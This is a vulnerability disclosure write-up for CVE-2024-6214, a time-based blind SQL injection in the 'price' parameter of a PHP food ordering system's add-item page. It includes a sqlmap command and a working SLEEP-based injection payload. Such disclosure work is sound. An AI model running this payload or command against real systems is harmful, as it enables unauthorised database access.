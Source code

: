 ```yaml
---
title: CVE-2024-6214
draft: false
tags:
  - cve
---
```

# SQL Injection vulnerability was discovered from Sourcecodester Food Ordering Management System 1.0 (add-item)
## CVE-2024-6214

Affected Project: Sourcecodester Food Ordering Management System 1.0
Official Website: https://www.sourcecodester.com/php/15689/food-ordering-management-system-php-and-mysql-free-source-code.html
Version: 1.0

Related Code file: /router/add-item.php

Injection parameter: price


## Vulnerability Analysis

1. Lack of Input Validation and Sanitization:
The price and name fields are directly used in the SQL query without any sanitization or validation. This allows an attacker to manipulate the SQL query by injecting malicious SQL code.

2. Use of Plain SQL Queries:
The script likely uses plain SQL queries to interact with the database. Without prepared statements, this approach is highly vulnerable to SQL injection.

## Demonstraation

Below is the admin-page.php. By clicking on **Add**, we can access add-item.php.

`http://172.16.76.1/foms/admin-page.php`

![image](https://github.com/jadu101/CVE/assets/76433661/607b0700-4d8f-4861-a3bc-1f43574e3f25)

We will first intercept the add-item traffic using Burp Suite:

![image-1](https://github.com/jadu101/CVE/assets/76433661/2f15e133-4b3c-4361-9b13-a5558c746485)

Save the intercepted add-item request to a .txt file and execute sqlmap towards it. 

parameter price is vulnerable to time-based blind sql injection

Below commands verifies the vulnerability:

`sqlmap -r foms-add-item.txt --batch`

![image-2](https://github.com/jadu101/CVE/assets/76433661/2d2940ac-b925-4994-9bb9-89a897dc9c05)

```
---
Parameter: price (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: name=asdafsd&price=123 AND (SELECT 1175 FROM (SELECT(SLEEP(5)))jrgF)&action=
---
```
